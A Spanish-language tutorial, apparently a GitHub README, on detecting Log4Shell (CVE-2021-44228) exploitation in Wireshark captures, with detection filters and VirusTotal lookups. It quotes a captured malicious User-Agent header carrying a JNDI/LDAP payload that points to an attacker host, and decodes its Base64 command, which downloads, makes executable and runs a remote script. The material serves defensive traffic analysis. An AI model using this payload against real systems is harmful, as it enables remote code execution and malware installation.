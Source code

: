 
## Analyzing a Log4j Exploit with Wireshark (and how to filter for it) // Sample PCAP! BY Chris Greer
https://www.youtube.com/watch?v=O7VWtFtDvRg

## Ejemplo de Log4j en Wireshark
- Wireshark Room: Traffic Analysis -->http.cap
- Fichero que se adjunta en el vídeo de youtube.

# Log4Shell - Log4j
El ataque que explota la vulnerabilidad Log4j, conocido como "Log4Shell", es un tipo de vulnerabilidad de ejecución remota de código (RCE, Remote Code Execution). Esta vulnerabilidad se encuentra en la biblioteca de registro Log4j de Apache, que es ampliamente utilizada en aplicaciones Java.

La vulnerabilidad Log4Shell permite a un atacante remoto ejecutar código arbitrario en el servidor afectado simplemente enviando cadenas de texto especialmente diseñadas que son procesadas por Log4j. Estas cadenas maliciosas suelen ser enviadas a través de entradas de usuario que pueden ser registradas por Log4j, como cabeceras HTTP, mensajes de correo electrónico, o entradas de formularios web. Cuando Log4j procesa una cadena que incluye una referencia JNDI maliciosa a un servidor LDAP controlado por el atacante, el servidor vulnerable puede ejecutar código Java arbitrario suministrado por el atacante.

La gravedad de esta vulnerabilidad radica en la capacidad de los atacantes para ejecutar código de manera remota sin autenticación previa, lo que les permite tomar control total de los sistemas afectados, acceder a datos sensibles, instalar malware, y propagar el ataque dentro de redes corporativas.

La vulnerabilidad Log4Shell fue asignada con el identificador **CVE-2021-44228 y se considera crítica**. Su descubrimiento a finales de 2021 llevó a una respuesta urgente de la comunidad de ciberseguridad, con actualizaciones y parches emitidos rápidamente para mitigar el riesgo de explotación.


La vulnerabilidad de Log4j, se ajusta perfectamente a la **categoría A06:2021 - Componentes Vulnerables y Desactualizados del OWASP Top Ten 2021**. Esta categoría se centra en los riesgos asociados con el uso de componentes de software con conocidas vulnerabilidades de seguridad sin las debidas actualizaciones o parches. En el caso de Log4j, la biblioteca afectada por esta vulnerabilidad crítica es un componente de software ampliamente utilizado en aplicaciones Java para el registro de actividades.

El riesgo de utilizar componentes vulnerables y desactualizados como Log4j sin aplicar los parches de seguridad necesarios es significativo, ya que permite a los atacantes explotar estas vulnerabilidades para realizar ataques de ejecución remota de código, entre otros. Esto subraya la importancia de mantener todos los componentes de software actualizados y aplicar las mejores prácticas de gestión de dependencias y parches de seguridad recomendadas por OWASP y otros organismos de seguridad cibernética.


## Filtro wireshark
```
ip contains jndi
(ip contains "jndi") || (tcp.flags==0x002 && ip.src==198.71.247.91)
```
El filtro de Wireshark ip contains jndi se utiliza para buscar paquetes cuyo contenido en el nivel IP (Protocolo de Internet) incluye la secuencia de caracteres "jndi". Este tipo de filtro es útil para identificar intentos de explotación o actividad maliciosa relacionada con vulnerabilidades específicas que involucran a JNDI (Java Naming and Directory Interface).

En el contexto de la seguridad informática, "jndi" se ha vuelto particularmente relevante debido a vulnerabilidades como Log4Shell (CVE-2021-44228) en la biblioteca Log4j de Apache, donde un atacante puede inyectar referencias JNDI maliciosas en los registros para ejecutar código arbitrario de forma remota.

Utilizar ip contains jndi como filtro en Wireshark permite detectar paquetes que podrían estar intentando explotar esta clase de vulnerabilidades, mostrando cualquier paquete IP que contenga la cadena "jndi". Sin embargo, es importante tener en cuenta que este filtro podría no ser completamente efectivo para detectar todos los intentos de explotación relacionados con JNDI, ya que los ataques pueden emplear técnicas de ofuscación o codificación que no resultarían en una coincidencia directa con la cadena "jndi" en el nivel IP.

Este filtro sólo funcionará en un ataque al puerto 80 or open web. Pero no funcionará si se ataca el puerto 443 o una conexión TLS, ya que no podemos ver el texto en claro.



![](capturas/wireshark-http-analysis.png)



## Ejemplo de captura del tráfico de un ataque Log4j
```
User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}\r\n

- User-Agent: Este es el campo del encabezado HTTP que normalmente indica qué navegador o cliente HTTP está haciendo la solicitud.
- ${jndi:ldap://...}: Esta es la parte crítica que explota la vulnerabilidad Log4Shell (CVE-2021-44228) en Log4j. Permite la ejecución remota de código a través de la inyección de una cadena maliciosa.
  - jndi: Java Naming and Directory Interface, una API de Java para servicios de directorio que permite a las aplicaciones Java descubrir y obtener datos o recursos usando un nombre.
  - ldap: Lightweight Directory Access Protocol, un protocolo para acceder y mantener servicios de directorio distribuidos.
  
- ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Esta URL LDAP apunta a un servidor controlado por el atacante (45.137.21.9 en el puerto 1389). El path que sigue especifica un comando codificado en Base64 que el servidor vulnerable intentará ejecutar.

- d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Este es el comando codificado en Base64. Decodificado, se traduce a una secuencia de comandos shell que realiza lo siguiente:
  - Descarga un script (probablemente malicioso) de http://62.210.130.250/lh.sh.
  - Cambia los permisos del script descargado para hacerlo ejecutable (chmod +x lh.sh).
  - Ejecuta el script descargado (./lh.sh).
```


Detalle del tráfico en el Log4Shell:
![](capturas/wireshark-log4shell.png)


### Analizamos la web que nos aparece con Virustotal
IP: 62.210.130.250
![](capturas/virustotal.png)


Vemos que la comunidad nos avisa que es Log4Shell IOCS
![](capturas/virustotal-2.png)


## Filtros wireshark para Log4Shell
Paquetes que sean parte de un intento de inicio de conexión TCP (indicado por el flag de SYN) originados desde la dirección IP 198.71.247.91.
```
(ip contains "jndi") || (tcp.flags==0x002 && ip.src==198.71.247.91)

tcp.flags==0x002: Esta parte del filtro busca paquetes TCP donde solo esté establecido el bit de SYN. En el contexto de TCP, el flag SYN se utiliza para iniciar una conexión, y un paquete con solo este flag activado indica un intento de inicio de conexión TCP. El valor 0x002 representa el flag de SYN en notación hexadecimal.
```

Paquetes que son intentos de iniciar una conexión TCP hacia el host con la dirección IP 198.71.247.91.
```
(ip contains "jndi") || (tcp.flags==0x002 && ip.dst==198.71.247.91)

tcp.flags==0x002: Esta parte del filtro busca paquetes TCP donde solo esté establecido el bit de SYN. En el contexto de TCP, el flag SYN se utiliza para iniciar una conexión, y un paquete con solo este flag activado indica un intento de inicio de conexión TCP. El valor 0x002 representa el flag de SYN en notación hexadecimal.
```

